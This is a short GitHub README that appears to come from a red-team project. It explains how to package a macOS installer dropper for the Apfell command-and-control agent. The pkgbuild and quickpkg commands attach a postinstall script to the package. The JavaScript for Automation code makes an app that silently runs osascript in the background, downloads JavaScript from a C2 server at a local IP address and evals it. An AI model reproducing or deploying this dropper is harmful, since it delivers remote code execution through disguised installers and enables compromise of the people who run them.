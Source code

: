 # apfell-payload
Making pkg payload from Javascript app


## Making the pkg payload
`pkgbuild --root ~/Documents/tech_infosec/apfell-testing/payloads/apfell_pkg_installer_dropper/ --scripts scripts --install-location /tmp --identifier my.fake.pkg my_package.pkg`


### Using this script to make pkg because pkgbuild is fickle
Script: https://github.com/scriptingosx/quickpkg

`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`


## Creating apfelljxa.app with Script Editor

Create apfelljxa.app with the following Javascript:

`var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`


Note: Exclude Examples folder when building the .pkg
